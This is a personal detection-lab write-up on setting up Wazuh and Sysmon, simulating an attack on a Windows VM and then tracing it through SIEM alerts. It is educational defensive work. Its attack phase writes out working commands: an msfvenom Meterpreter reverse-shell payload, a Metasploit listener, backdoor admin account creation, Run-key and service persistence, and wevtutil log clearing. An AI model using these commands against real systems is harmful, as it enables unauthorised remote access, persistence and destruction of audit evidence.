# Windows Endpoint Threat Detection And Investigation: Wazuh EDR/SIEM
### A Wazuh EDR/SIEM Detection Lab

**Lab Type:** Offensive Simulation + EDR Detection + Incident Response 

**Platform:** Wazuh 4.7 (Open Source SIEM + EDR)

**Environment:** Ubuntu 22.04 VM (Wazuh Manager/Indexer/Dashboard + Attacker) | Windows 11 VM (Victim Endpoint + Wazuh Agent) | VirtualBox Host-Only Network

**Analyst:** Effiong Okon

---

## Overview

After several sessions of endpoint security training at AltSchool Africa, I wanted to go beyond the theory and put it into practice, so I built this lab from scratch.

I set up two virtual machines, Ubuntu as the attacker and Wazuh manager, Windows 11 as the victim endpoint, and simulated a realistic post-exploitation attack chain. Then I switched roles and investigated the entire attack using Wazuh as my SIEM and EDR platform.

The goal was to understand not just how attacks work, but how they look from the defender's seat, what evidence they leave, where to find it, and how to piece the story together from raw logs.

---

## Environment Architecture

| Component | Role | IP |
|---|---|---|
| Ubuntu 22.04 VM | Wazuh Manager, Indexer, Dashboard + Attacker | 192.168.56.10 |
| Windows 11 VM | Victim Endpoint: "Windows-Endpoint" (Wazuh Agent) | 192.168.56.20 |
| VirtualBox Host-Only Network | Isolated lab network | 192.168.56.0/24 |

> Note: agent enrolment was initiated against the manager's secondary
> interface (172.25.219.238) before the host-only network above became the
> primary path used for the dashboard and all agent communication shown in
> this investigation.

---

## Tools Used

| Tool | Purpose |
|---|---|
| Wazuh 4.7 | SIEM + EDR: Centralised detection, alerting, FIM, and SCA |
| Sysmon (SwiftOnSecurity config) | Rich endpoint telemetry, process, network, file, registry events |
| Metasploit Framework | Attack simulation, payload generation and C2 |
| msfvenom | Reverse TCP payload generation |
| Windows Event Viewer | Native log reference for cross-validation |
| VirtualBox | Isolated lab environment |

---

## Lab Build: Setting Up the Detection Stack

Before simulating any attacks, I built the detection platform from scratch. Building it myself helped me understand exactly where every piece of telemetry in Phase 2 actually comes from.

### Step 1: Prepare the Ubuntu Manager



Updated package lists and installed the prerequisites Wazuh needs (curl,
apt-transport-https, unzip, wget, gnupg, etc.) before running the installer.
Getting this clean up front avoids dependency errors halfway through the
Wazuh install.

### Step 2: Install Wazuh (Manager, Indexer, Dashboard)


Ran the all-in-one Wazuh installer, which set up the manager, indexer, and
dashboard together and printed the auto-generated `admin` credentials for
the web interface.

### Step 3: Verify All Services Are Running



Checked `systemctl status` for `wazuh-manager`, `wazuh-indexer`, and
`wazuh-dashboard`, all three showed **Active (running)**. 

### Step 4: Confirm Dashboard Access



Logged into the Wazuh dashboard at `https://192.168.56.10` as `admin`. At
this point, it shows **0 agents**, the manager is alive, but it isn't
watching anything yet.

### Step 5: Download the Windows Agent



Downloaded `wazuh-agent-4.7.0-1.msi` onto the Windows 11 VM. This is the
package that turns a plain Windows machine into a monitored endpoint.

### Step 6: Install and Start the Agent



Ran the MSI silently with `WAZUH_MANAGER` pointed at the manager and
`WAZUH_AGENT_NAME="Windows-Endpoint"`, then started the service with
`NET START WazuhSvc`. The service started successfully, and the endpoint is now
shipping telemetry to the manager.

### Step 7: Confirm the Agent Checks In



Back on the dashboard's Agents page, **Windows-Endpoint** appears as
**Active**, with its IP (192.168.56.20) and OS version visible. This is the
moment the manager and endpoint are officially talking.

### Step 8: Add Sysmon and Active Response Logging to ossec.conf



Edited `ossec.conf` on the agent side to add three `<localfile>` blocks: the
Windows **System** event channel, the **Sysmon Operational** channel, and
the **active-responses.log** file. 

Without the Sysmon block specifically, Wazuh only sees the generic Windows Security/Application logs, adding it is
what lets Wazuh see process creation, registry changes, and network connections.

### Step 9: Install Sysmon



Installed Sysmon64 using a SwiftOnSecurity-based configuration
(`sysmonconfig-export.xml`) and confirmed the `Sysmon64` service shows
**Running** via `Get-Service`. This config is what makes the Sysmon events
in Phase 2 (process creation, registry SetValue, etc.) rich enough to be
useful instead of just noise.

### Step 10: Baseline Check



With everything installed, but before any attack, the Security Events
dashboard shows 499 total events over 24 hours, **0** alerts at Level 12 or
above, and a Top 5 Alerts breakdown dominated by routine items (service
start-type changes, software protection scheduling). This is what "normal" looks like, the baseline I'd compare every later alert against.

---

## PHASE 1: OFFENSIVE: ATTACK SIMULATION

I switched to the attacker's seat, operating from the Ubuntu VM.

### Step 1:  Generate and Deliver the Payload



```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.10 LPORT=4444 -f exe -o not_malware.exe
```

This generated a 7,680-byte Windows x64 Meterpreter reverse TCP payload.



```bash
sudo python3 -m http.server 80
```
I served the payload from a `/malware/` directory over port 80 using `sudo python3 -m http.server 80`. The access log shows the victim browsing to the directory and downloading `not_malware.exe`.

### Step 2: Establish C2 Connection

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.56.10
set LPORT 4444
run
```

The moment the victim ran `not_malware.exe`, a Meterpreter session opened,
full remote access to the Windows machine.

### Step 3: Post-Exploitation Attack Chain



With access established, I ran five attacker actions from a command prompt
on the victim:

**Backdoor account + privilege escalation:**
```cmd
net user WazuhTestBackdoor P@ssw0rd123! /add
net localgroup Administrators WazuhTestBackdoor /add
```

**Persistence — Registry Run key:**
```cmd
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v SystemUpdateHelper /t REG_SZ /d "C:\Users\Effizy\Downloads\not_malware.exe" /f
```

**Persistence — Malicious service:**
```cmd
sc create "WazuhTestService" binpath= "C:\Users\Effizy\Downloads\not_malware.exe" start= auto
```

**Defence evasion — Clear event logs:**
```cmd
wevtutil cl Security
wevtutil cl System
```

---

## PHASE 2: DEFENSIVE: SOC INVESTIGATION

I switched roles. I'm now the analyst who's been handed this machine and told
something suspicious happened, with no prior knowledge of what the attacker
did. Everything below is what I found in Wazuh alone.

---

### Finding 1: First Trace:  Malware Execution Detected


Wazuh flagged **```not_malware.exe```** as a faulting application with exception code 0xc0000005 (access violation). The alert captured the full file path **```C:\Users\Effizy\Downloads\not_malware.exe```** and generated a severity 9 alert automatically without me running a single manual command. Wazuh also recorded the SHA256 hash, module version, and fault offset, giving me immediate forensic anchors to work from.
This is EDR behaviour: continuous monitoring, catching the malware the moment it runs.

---

### Finding 2: Sysmon Suspicious Process Creation (T1055) (svchost.exe)



Sysmon Event ID 1 captured a suspicious process creation **```svchost.exe```** running with a null parent process GUID, triggering MITRE T1055 (Process Injection) at severity 12. Wazuh's rule engine identified that svchost.exe with no traceable parent is consistent with process injection, an attacker technique used to hide malicious code inside legitimate Windows processes.

Key fields captured: SHA256 hash, parent process GUID (00000000-0000-0000-0000-000000000000), image path, and integrity level.

---

### Finding 3: Backdoor Account Created (Event ID 4720



Wazuh detected a new local user account **```WazuhTestBackdoor```**  being created by the **```Effizy```**  account on **```DESKTOP-GACUCML.```** Event ID 4720 fired automatically at severity 8 under MITRE T1098 (Persistence). 

---

### Finding 4: Privilege Escalation (Event ID 4732): Administrators Group Modified



Within seconds of the account being created, Event ID 4732 fired **```WazuhTestBackdoor```** was added to the local Administrators group. Technique T1484, severity 12, tactic: Defence Evasion + Privilege Escalation. The description reads: "Administrators group changed."

The 4720 followed immediately by 4732 is a classic attacker pattern: create a backdoor account and immediately escalate it. No legitimate IT process moves that fast. This sequence alone is enough to declare an incident.

---

### Finding 5: Registry Persistence Captured (Sysmon Event ID 13)



Wazuh captured the Sysmon registry modification event (Event ID 13) showing the exact Run key path and the malicious value being written. Rule ID 92302, severity 8, technique T1547.001. The full registry target object was:

`HKCU\Software\Microsoft\Windows\CurrentVersion\Run\SystemUpdateHelper` The value written pointed back to `C:\Users\Effizy\Downloads\not_malware.exe,` persistence confirmed through a second independent mechanism.

---

### Finding 6: Malicious Service Installed (Event ID 7045)



Wazuh detected a new service **```WazuhTestService```** being installed. Technique T1543.003, severity 9. Key fields:

Account: `LocalSystem` maximum privilege
Start type: `auto start` survives every reboot
Binary path: `C:\Users\Effizy\Downloads\not_malware.exe`

A Downloads directory path for a service binary is always suspicious. This is persistence via a second mechanism, and the combination of LocalSystem + auto start + non-standard path is an immediate red flag.

---

### Finding 7:  File Integrity Monitoring Alert




**Rule 554, Level 5, Mode: realtime.** I configured FIM to watch the
Downloads folder, which is the most common landing spot for phishing payloads, and
to prove it works in real time, I dropped a second file, `test_payload.exe`,
into Downloads. Wazuh alerted on it immediately, capturing its SHA1/SHA256
hashes and permissions. This demonstrates FIM is watching continuously, not
just on a scheduled scan.

---

### Finding 8: Audit Log Cleared (Event ID 1102) (and Why It Didn't Matter)



**Rule 63103, Level 5, Technique T1070, Event ID 1102.** The attacker ran
`wevtutil cl Security` to wipe the Windows Security log, but Wazuh had
already forwarded every event above (Findings 3, 4, 5, 6) to the centralised
indexer before the clear happened. Checking the local Windows Event Viewer
afterward shows it empty, but every one of those alerts still exists in
Wazuh. 

**This is the single most important finding in the lab**, it
demonstrates exactly why centralised logging exists: to preserve evidence
an attacker can't reach.

---

### Finding 9: Failed Authentication Detected

